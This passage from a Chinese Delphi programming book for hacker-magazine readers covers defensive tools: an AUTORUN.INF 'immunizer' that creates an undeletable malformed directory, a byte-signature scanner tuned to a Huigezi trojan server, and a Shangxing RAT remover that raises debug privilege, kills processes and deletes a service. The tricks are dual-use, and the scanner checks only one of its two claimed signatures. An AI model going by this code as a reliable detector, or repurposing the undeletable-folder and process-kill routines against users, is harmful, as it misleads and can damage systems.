按 F9 运行程序，填写好相应的配置信息后，点击“生成”按钮，如图6.58，就会自动弹出一个保存对话框窗口，在其中输入要保存的文件名称就行了，如图6.59。双击运行被配置过的服务端程序，可以看到聊天窗口弹出了配置信息，这样一个配置程序就演示完毕了，如图6.60。

# 第七章 病毒免疫和查杀工具的编写

病毒和木马肆虐的网络环境下，如果能够利用自己的编程技术编写出一些病毒免疫或查杀工具将是一件十分有意义的事情，编写出来的软件不仅可以自己使用，来做到防毒杀毒，还可以发布到互联网上，提供给大家使用。因此，本章我就教大家如何编写病毒免疫和查杀工具，希望读者朋友们在掌握了本章内容后，能够推陈出新，编写出功能更加强大的病毒防杀软件。

## 7.1 病毒免疫工具的编写

经历过熊猫烧香或一些 U 盘感染型病毒的读者，对于 AUTORUN.INF 这样的传播方式一定都“记忆犹新”吧。按照见招拆招的解决方法，我们可以建立一个无法删除的 AUTORUN.INF 目录或者文件，来达到防止病毒通过此途径传播自身的目的。我首先给出程序的界面，使用到了两个按钮和一个 LISTBOX 组件，如图7.1。

> **小知识：AUTORUN.INF 文件**
>
> U 盘病毒的传播主要是借助了 autorun.inf 文件的帮助。病毒首先会把自身复制到 U 盘，然后创建一个 autorun.inf 文件，当你双击 U 盘时，就会根据 autorun.inf 中的设置去运行 U 盘中的病毒。其中，AUTORUN.INF 就是系统支持的自动播放功能，可以实现双击磁盘时打开指定的磁盘内的文件。

程序首先使用 get_drives() 函数获取所有的磁盘列表。get_drives() 函数返回一个 TStringList 对象，这个对象保存了所有的磁盘信息，这里选择了在窗体的载入事件中调用这个函数来得到磁盘列表。然后，在按钮的单击事件中完成对磁盘目录的免疫功能，原理就是使用 CMD 命令建立特殊目录，这样就导致产生了一个在 Windows 资源管理器中无法删除的目录，同时也完成了我们的目标，禁止程序生成 AUTORUN.INF 文件。程序的全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    ListBox1: TListBox;
    Button1: TButton;
    Button2: TButton;
    procedure FormCreate(Sender: TObject);
    procedure Button2Click(Sender: TObject);
    procedure Button1Click(Sender: TObject);
```

```pascal
private
  { Private declarations }
public
  { Public declarations }
end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

function get_drives(): TStringList;
var
  i: Integer;
  n: Integer;
  a: TStringList;
begin
  a := TStringList.Create;

  for i := 65 to (65 + 25) do
  begin
    n := GetDriveType(PChar(Chr(i) + ':\'));
    case n of
      //0:
      //  TreeView1.Items.Add(nil, Chr(i)+':\ 无法检测！');
      //1:
      //  TreeView1.Items.Add(nil, Chr(i)+':\ 不存在！');
      DRIVE_REMOVABLE:
        a.Add(Chr(i) + ':\（移动硬盘）');
      DRIVE_FIXED:
        a.Add(Chr(i) + ':\（硬盘）');
      DRIVE_REMOTE:
        a.Add(Chr(i) + ':\（网络硬盘）');
      DRIVE_CDROM:
        a.Add(Chr(i) + ':\（CD-ROM）');
      DRIVE_RAMDISK:
        a.Add(Chr(i) + ':\（光盘）');
      //else:
    end;
  end;

  Result := a;
end;

procedure TForm1.FormCreate(Sender: TObject);
begin
  ListBox1.Items.Assign(get_drives());  // 得到所有磁盘列表
end;

procedure TForm1.Button2Click(Sender: TObject);
begin
  Application.Terminate; // 退出程序运行
end;

procedure TForm1.Button1Click(Sender: TObject);
var
  i: Integer;
  s: String;
begin
  for i := 0 to ListBox1.Items.Count - 1 do
  begin
    s := Copy(ListBox1.Items.Strings[i], 1, 1); // 得到磁盘名
    WinExec(PChar('cmd.exe /c md ' + s + ':\autorun.inf\'), sw_hide); // 建立 AUTORUN.INF 目录
    WinExec(PChar('cmd.exe /c md ' + s + ':\autorun.inf\xiaolong..\'), sw_hide); // 建立畸形目录
    ListBox1.Items.Add(s + ':\autorun.inf\xiaolong..\  免疫成功！');
  end;
end;

end.


```

在程序运行前，我们可以看到在磁盘根目录下是没有 AUTORUN.INF 目录的，如图 7.2。现在按 F9 运行程序，或者直接生成 EXE 程序再双击运行，可以看到程序窗口中自动列出了所有存在的磁盘目录，如图 7.3。点击程序主界面中的“开始免疫”按钮，我们就会看到提示说所有的磁盘都免疫成功，在磁盘根目录下也可以看到一个 AUTORUN.INF 文件夹了，如图 7.4。当使用右键删除时，就会弹出一个“删除文件或文件夹出错”的对话框，如图 7.5。

打开 AUTORUN.INF 这个文件夹，可以看到其中有个“XIAOLONG..”（后面有个“.”符号），当试图删除这个目录时，就会弹出因为引用了一个不可用的位置所以导致删除文件夹失败的提示。

该程序的原理其实就是通过在磁盘根目录下建立一个 AUTORUN.INF 文件夹，然后在这个文件夹之下再建立一个只有在 CMD 下才可以建立的特殊文件夹（在 WINDOWS 下访问会出错）。如果试图删除 AUTORUN.INF，就会提示失败，因为 AUTORUN.INF 文件夹下面有个在 WINDOWS 下无法访问的错误文件夹；当访问这个文件夹时，也会提示访问失败，如图 7.6；当删除时，同样也会提示无法删除，如图 7.7。经过这样的免疫之后，通过系统自动播放功能就无法再传播病毒了。
图 7.2

图 7.3

# 第七章 病毒免疫和查杀工具的编写
图 7.4
图 7.5
图 7.6
图 7.7

## 7.2 自己动手编写杀毒软件

大家都使用过杀毒软件吧，很多杀毒软件在查杀病毒时都是使用的特征码技术，下面我们就来解析这样的技术，使用 DELPHI 编写出一个属于自己的杀毒软件。大家先来看下程序的编写界面，使用到的都是最基础的 VCL 组件，读者朋友们把各个组件摆放好位置后就可以编写程序代码了，如图 7.8。
图 7.8

### 7.2.1 文件遍历的实现

作为杀毒软件，首先就要实现全盘搜索功能。我们先来模拟杀毒软件的操作，使用一个搜索磁盘内所有文件的函数，如果搜索成功就返回搜索到的文件个数，否则返回 0。EnumFileInRecursion 函数就可以实现这个文件遍历的功能，它只有一个字符指针类型的参数，数据返回在 MEMO1 组件中，所以在使用前我们需要事先添加一个 MEMO1 组件，用来记录得到的文件搜索结果。同时还要注意的是，要设置 MEMO1 的 ScrollBars 属性为 ssBoth，否则调用 MEMO1 中的组件时会出现错误，因为 MEMO1 会默认将一行放不下的文本折行显示，这样如果读取 MEMO1 组件中的一行作为文件路径的话，就是错误的文件路径，如图 7.9。

程序的全部代码如下：

```pascal
function EnumFileInRecursion(path: PChar): Longint; stdcall;
var
  searchRec: TSearchRec;
  found: Integer;
  tmpStr: String;
begin
  Result := 0; // 查找结果（文件数）

  // 加上搜索后缀，得到类似 “c:\*.*”、“c:\windows\*.*” 的搜索路径
  tmpStr := StrPas(path) + '\*.*';

  // 在当前目录查找第一个文件、子目录
  found := FindFirst(tmpStr, faAnyFile, searchRec);
  while found = 0 do
  begin
    // 找到了一个文件或目录后

    // 如果找到的是个目录
    if (searchRec.Attr and faDirectory) <> 0 then  // 是一个目录
    begin
      // 在搜索非根目录（C:\、D:\）下的子目录时会出现 “.”、“..” 的虚拟目录
      // 大概是表示上层目录和下层目录吧，要过滤掉才可以
      if (searchRec.Name <> '.') and (searchRec.Name <> '..') then
      begin
        // 由于查找到的子目录只有个目录名，所以要添加上层目录的路径
        // searchRec.Name = 'Windows'，tmpStr = 'c:\Windows'
        // 加个断点就一清二楚了
        tmpStr := StrPas(path) + '\' + searchRec.Name;

        // 自身调用，查找子目录，递归。
        Result := Result + EnumFileInRecursion(PChar(tmpStr));
      end;
    end

    // 如果找到的是个文件
    // （这个也是递归的结束条件；结束条件对于理解递归来说，相当重要）
    else  // 是一个文件
    begin
      // Result 记录搜索到的文件数
      Result := Result + 1;

      // 把找到的文件加到 Memo 控件
      Form1.Memo1.Lines.Add(StrPas(path) + '\' + searchRec.Name);
    end;

    // 查找下一个文件或目录
    found := FindNext(searchRec);
  end;

  // 释放资源
  FindClose(searchRec);
end;


```
图 7.9

至于具体的调用方法，可以在按钮的单击事件中调用此函数（首先要在窗体界面中添加一个 MEMO1 组件，否则无法显示调用结果），调用方法如下：

```pascal
procedure TForm1.Button1Click(Sender: TObject);
begin
  EnumFileInRecursion(PChar(Edit1.Text));
end;
```

### 7.2.2 特征码检测技术

上面我们已经介绍了如何实现文件的遍历操作，接下来介绍如何实现对文件的特征码检测。我们使用的方法是，通过内存流对象载入一个磁盘文件，然后读取指定位置一个特征符号，通过与设置的特征码进行对比。如果相等就表示是木马文件（这里使用了两个特征码，也就是说扫描失误的概率是 1/250*250），最后再释放内存流对象。程序的全部代码如下：

```pascal
procedure TForm1.Button2Click(Sender: TObject);
var
  i: Integer;
  tmp1: TMemoryStream;    // 内存流对象
  buf: array[0..1000] of Char;
  offset1, offset2, ascii1, ascii2: Integer;
begin
  ProgressBar1.Min := 0;
  ProgressBar1.Max := Memo1.Lines.Count;    // 设置进度条进度
  for i := 0 to Memo1.Lines.Count - 1 do    // 循环所有的待扫描文件
  begin
    try
      ProgressBar1.Position := i;
      tmp1 := TMemoryStream.Create;    // 创建内存流对象
      tmp1.LoadFromFile(Memo1.Lines.Strings[i]);    // 逐个载入文件
      tmp1.Position := 0;
      tmp1.ReadBuffer(buf, 1001);    // 读取 1001 个字符到内存流对象

      offset1 := StrToInt(Edit2.Text);
      offset2 := StrToInt(Edit4.Text);
      ascii1 := StrToInt(Edit3.Text);
      ascii2 := StrToInt(Edit5.Text);
      Application.ProcessMessages;    // 防止程序假死

      if Ord(buf[offset1]) = ascii1 then    // 找到指定偏移位置的字符，如果等于特征码，说明就是病毒文件
      begin
        ListBox1.Items.Add(Memo1.Lines.Strings[i] + '——>>含有木马！');
      end;

      tmp1.Free;    // 释放内存流对象
    except
    end;   // END TRY
  end;   // END IF
end;
```

### 7.2.3 全部代码和程序运行

上面分别介绍了全盘文件扫描的代码和特征码扫描技术的代码，这里再给出全部代码，读者朋友们可以进行上机实践操作。

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, ComCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    Memo1: TMemo;
    ListBox1: TListBox;
    Button2: TButton;
    Edit1: TEdit;
    Label1: TLabel;
    Label2: TLabel;
    ProgressBar1: TProgressBar;
    Edit2: TEdit;
    Edit3: TEdit;
    Edit4: TEdit;
    Edit5: TEdit;
    Label3: TLabel;
    Label4: TLabel;
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

function EnumFileInRecursion(path: PChar): Longint; stdcall;
var
  searchRec: TSearchRec;
  found: Integer;
  tmpStr: String;
begin
  Result := 0;  // 查找结果（文件数）
  // 加上搜索后缀，得到类似 “c:\*.*”、“c:\windows\*.*” 的搜索路径
  tmpStr := StrPas(path) + '\*.*';

  // 在当前目录查找第一个文件、子目录
  found := FindFirst(tmpStr, faAnyFile, searchRec);
  while found = 0 do
  // 找到了一个文件或目录后
  begin
    // 如果找到的是个目录
    if (searchRec.Attr and faDirectory) <> 0 then   // 是一个目录
    begin
      {在搜索非根目录（C:\、D:\）下的子目录时会出现“.”、“..”的“虚拟目录”
       大概是表示上层目录和下层目录吧，要过滤掉才可以}
      if (searchRec.Name <> '.') and (searchRec.Name <> '..') then
      begin
        {由于查找到的子目录只有个目录名，所以要添加上层目录的路径
         searchRec.Name = 'Windows'; tmpStr := 'c:\Windows';
         加个断点就一清二楚了}
        tmpStr := StrPas(path) + '\' + searchRec.Name;
        // 自身调用，查找子目录，递归。
        Result := Result + EnumFileInRecursion(PChar(tmpStr));
      end;
    end
    // 如果找到的是个文件
    {这个也是递归的结束条件，结束条件对于理解递归来说，相当重要}
    else                          // 是一个文件。
    begin
      {Result 记录着搜索到的文件数。}
      Result := Result + 1;
      // 把找到的文件加到 Memo 控件
      Form1.Memo1.Lines.Add(StrPas(path) + '\' + searchRec.Name);
    end;

    // 查找下一个文件或目录
    found := FindNext(searchRec);
  end;

  // 释放资源
  FindClose(searchRec);
end;

procedure TForm1.Button1Click(Sender: TObject);
begin
  EnumFileInRecursion(PChar(Edit1.Text));
end;

procedure TForm1.Button2Click(Sender: TObject);
var
  i: Integer;
  tmp1: TMemoryStream;
  buf: array[0..1000] of Char;
  offset1, offset2, ascii1, ascii2: Integer;
begin
  ProgressBar1.Min := 0;
  ProgressBar1.Max := Memo1.Lines.Count;
  for i := 0 to Memo1.Lines.Count - 1 do
  begin
    try
      ProgressBar1.Position := i;
      tmp1 := TMemoryStream.Create;
      tmp1.LoadFromFile(Memo1.Lines.Strings[i]); // 逐个载入文件
      tmp1.Position := 0;
      tmp1.ReadBuffer(buf, 1001);

      offset1 := StrToInt(Edit2.Text);
      offset2 := StrToInt(Edit4.Text);
      ascii1 := StrToInt(Edit3.Text);
      ascii2 := StrToInt(Edit5.Text);
      Application.ProcessMessages; // 防止程序假死

      if Ord(buf[offset1]) = ascii1 then
      begin
        ListBox1.Items.Add(Memo1.Lines.Strings[i] + '====>>含有木马!');
      end;

      tmp1.Free; // 释放内存流对象
    except
    end; // END TRY
  end; // END IF
end;

end.


```

我们使用灰鸽子配置一个服务端程序，如图 7.10，现在来提取这个灰鸽子服务端程序的特征码，使用 C32ASM 打开服务端文件，找到一处“00000181”，字符为“80”，如图 7.11，因为得到的偏移地址是十六进制的，所以我们需要使用计算器将其转换为十进制的数据，打开计算器，点击“查看”下的“科学型”，如图 7.12。
# 第七章 病毒免疫和查杀工具的编写
图 7.11

选择十六进制，输入刚才的特征码偏移位置“181”（“00000181”前面的“0”可以省略），如图 7.13，选择十进制单选框，可以看到十进制的特征码偏移位置为“385”，如图 7.14。找到特征码的十进制位置信息后，现在就要得到对应的 ASCII 码了。选择十六进制单选框，输入“80”，如图 7.15，再次选择十进制单选框，可以看到字符的 ASCII 码为“128”，如图 7.16。
图 7.12
图 7.13
图 7.14
图 7.15
图 7.16

利用同样的方法，找到“0000018A”处的特征码“0B”，通过十六进制转换为十进制后得到偏移位置为“394”，特征码的 ASCII 码为“11”，如图 7.17。现在得到的偏移地址和特征码分别为：偏移“385”，特征码“128”；偏移“394”，特征码“11”。运行之前编写的程序，分别输入两处偏移地址和特征码，然后选择一个存在木马的目录进行扫描（这里选择的是桌面），最后点击“开始扫描”按钮，可以看到程序很快就扫描出了灰鸽子服务端，如图 7.18。

对于上面的程序，读者们还可以继续拓展，比如套接一个病毒数据库，这样就可以实现对当前所有流行病毒和木马的查杀了。
图 7.17
图 7.18

图 7.19

图 7.20

## 7.3 上兴服务端查杀工具的编写

### 7.3.1 原理分析

在开始编写上兴服务端查杀工具前，我们先来分析一下这个上兴服务端的运行原理，所谓知己知彼，百战不殆！打开最新版的上兴 2008，可以看到在安装名称那里是 rejoice819.exe，这个名称决定了服务端程序被运行之后复制到目标目录的名称，如图 7.19。
图 7.22
图 7.21

再来看安装目录，这个安装目录决定了服务端被运行之后复制到的目标目录，如图 7.20。我们还可以看到它的服务配置名称默认为 windows_rejoice2008_819，如图 7.21。同时这个木马还插入到了 IE 进程实现启动和穿墙，如图 7.22。
图 7.23

在运行了木马程序后，可以看到两个显著的陌生进程，在我没有打开 IE 窗口和计算器程序的情况下出现了 IE 进程和 CALC.EXE 进程，如图 7.23。同时，使用 WSYSCHECK 还可以看到有一个 WINDOWS_REJOICE2008_819 的陌生服务，并且被 WSYSCHECK 显示为红色，如图 7.24。
图 7.24

### 7.3.2 程序编写

有了上面的准备工作，现在就可以编写程序了，程序的界面如图 7.25 所示。服务端清除的流程为：

- 1. 结束掉 IE 进程和 CALC.EXE 进程；
- 2. 清除服务，这样就可以防止程序在下次开机时继续被运行；
- 3. 清除服务端文件。

程序的代码如下：
图 7.25

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils,
  Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, WinSvc, TlHelp32;

type
  TForm1 = class(TForm)
    Button1: TButton;
    Button2: TButton;
    Button3: TButton;
    Button4: TButton;
    Label1: TLabel;
    ComboBox1: TComboBox;
    ComboBox2: TComboBox;
    ComboBox3: TComboBox;
    Label3: TLabel;
    Label4: TLabel;
    ComboBox4: TComboBox;
    Label2: TLabel;
    Label5: TLabel;
    procedure Button1Click(Sender: TObject);
    procedure Button3Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
    procedure Button4Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

//============================== 删除服务
function DelService(ServiceName: String): Boolean;
var
  sm: THandle;
  sh: THandle;
  ret: Integer;
begin
  try
    ret := 0;
    sm := OpenSCManager('', nil, SC_MANAGER_ALL_ACCESS);
    if sm <> 0 then
    begin
      sh := OpenService(sm, PChar(ServiceName), SERVICE_ALL_ACCESS);
      if sh <> 0 then
      begin
        DeleteService(sh);
        ret := 1;
        CloseServiceHandle(sh);
      end;
      CloseServiceHandle(sm)
    end;
    if ret > 0 then
      Result := True
    else
      Result := False;
  except
  end;
end;
```

```pascal
//============================== 杀进程
function KillTask(ExeFileName: string): Integer;
const
  PROCESS_TERMINATE = $01;
var
  ContinueLoop: BOOL;
  FSnapshotHandle: THandle;
  FProcessEntry32: TProcessEntry32;
begin
  Result := 0;
  FSnapshotHandle := CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  FProcessEntry32.dwSize := SizeOf(FProcessEntry32);
  ContinueLoop := Process32First(FSnapshotHandle, FProcessEntry32);
  while Integer(ContinueLoop) <> 0 do
  begin
    if ((UpperCase(ExtractFileName(FProcessEntry32.szExeFile)) = UpperCase(ExeFileName)) or
      (UpperCase(FProcessEntry32.szExeFile) = UpperCase(ExeFileName))) then
      Result := Integer(TerminateProcess(
        OpenProcess(PROCESS_TERMINATE,
        BOOL(0),
        FProcessEntry32.th32ProcessID),
        0));
    ContinueLoop := Process32Next(FSnapshotHandle, FProcessEntry32);
  end;
  CloseHandle(FSnapshotHandle);
end;
```

```pascal
//============================================= 提权
// 但是对于服务程序，它会提示“拒绝访问”，其实只要程序拥有 Debug 权限即可
function EnableDebugPrivilege: Boolean;

function EnablePrivilege(hToken: Cardinal; PrivName: string; bEnable: Boolean): Boolean;
var
  TP: TOKEN_PRIVILEGES;
  Dummy: Cardinal;
begin
  TP.PrivilegeCount := 1;
  LookupPrivilegeValue(nil, PChar(PrivName), TP.Privileges[0].Luid);
  if bEnable then
    TP.Privileges[0].Attributes := SE_PRIVILEGE_ENABLED
  else
    TP.Privileges[0].Attributes := 0;
  AdjustTokenPrivileges(hToken, False, TP, SizeOf(TP), nil, Dummy);
  Result := GetLastError = ERROR_SUCCESS;
end;

var
  hToken: Cardinal;
begin
  OpenProcessToken(GetCurrentProcess, TOKEN_ADJUST_PRIVILEGES, hToken);
  Result := EnablePrivilege(hToken, 'SeDebugPrivilege', True);
  CloseHandle(hToken);
end;
//=============================================
```

```pascal
procedure TForm1.Button1Click(Sender: TObject);
begin
  EnableDebugPrivilege;      // 提升权限
  KillTask('IEXPLORE.EXE');  // 结束IE进程
  KillTask('calc.exe');      // 结束calc.exe进程，防止程序复活
end;

procedure TForm1.Button2Click(Sender: TObject);
begin
  DelService(ComboBox2.Text);  // 删除服务
end;

procedure TForm1.Button3Click(Sender: TObject);
begin
  FileSetAttr(ComboBox1.Text + ComboBox3.Text, 0);
  DeleteFile(PChar(ComboBox1.Text + ComboBox3.Text));
  // 删除文件
end;

procedure TForm1.Button4Click(Sender: TObject);
begin // 一键清除
  try
    EnableDebugPrivilege;    // 提升权限
    KillTask(ComboBox4.Text); // 1、关闭IE
    KillTask('calc.exe');    // 结束calc.exe进程，防止程序复活
  except
  end;
  try
    DelService(ComboBox2.Text); // 2、删除服务
  except
  end;
  try
    FileSetAttr(ComboBox1.Text + ComboBox3.Text, 0); // 设置文件属性
    DeleteFile(PChar(ComboBox1.Text + ComboBox3.Text)); // 3、删除文件
  except
  end;
end;
```


图 7.26


图 7.27


图 7.28

### 7.3.3 程序运行

现在来测试我们的上兴服务端清除程序，运行上兴服务端，可以看到我们的主机正常上线了，如图 7.26。此时可以看到出现了陌生的服务，如图 7.27。运行我们编写的上兴服务端清除器，可以直接点击“一键清除”按钮，如图 7.28。

这样，程序运行后就会先结束 IE 进程和 CALC.EXE 进程，然后删除木马的服务，最后删除木马文件，处理完毕后，来到上兴控制端中，我们可以看到服务端自动下线了，如图 7.29。


图 7.29

# 后序

大家好，我是无敌小龙张博，也就是本书的作者，相信经常看《黑客 X 档案》的读者们都曾经在杂志上看过我写的文章。

都说“书山有路勤为径，学海无涯苦作舟”，又说“吃得苦中苦，方为人上人”，任何学习都是非常辛苦的，尤其是对于计算机编程这门异常枯燥的课程而言更是如此。但当许多小菜熟练掌握了各种黑客工具的应用，以及各种脚本注入方法的使用后，成为一名真正的黑客高手，编写出令人羡慕的黑客工具就成了他们的追求以及学习的动力。或许这就是小菜的进化之路，每一个黑客高手，都是经过这样的转变，才最终由小菜变成大师的。

在学习 DELPHI 编程的过程中，初学者毫无疑问地会遭遇到一个个的技术难题，如果此时就心灰意冷地轻言放弃，那么他们也就成了那位行百里者半九十的古人。经常旁观和反思别人可以使我们变得更加冷静和理性，那么回顾自己，我们是不是应该为了自己最初的理想和追求而坚持下去呢，不要做那位没有坚持到底的掘井人，而应该坚信自己能够成功，也会像那些高手一样最终酿出喜悦的甘泉。

但是，在学习过程中碰到的那些技术难题又该如何解决呢？毕竟侃侃而谈和实际操作执行起来是有所区别的。我们再套用一句老话“内事不决问百度，外事不决问谷歌”。其实，这具体体现的就是一种学习能力，阅读本书的很多读者朋友相信都已经走进大学校门了，大学不仅仅是一个累积知识的殿堂，并且它还是一个自我教育和提高的地方，知识多固然重要，但是如果只是知识的容纳者，那就成了文学批判家口中的书橱了。所以，我们应该在学习中来培养自己的学习能力，不断改进自己的学习方法，化被动地接受知识为主动地攻克难题，在计算机编程的学习中亦是如此。

最后，衷心地祝愿大家能够学有所成。直面困难，解决困难何尝不是一种人生呢？如果大家在学习过程中碰到了一些难题的话，可以到《黑客 X 档案》官方论坛（http://www.hackerxfiles.net）的编程版块来一起交流，我的 ID 是无敌小龙。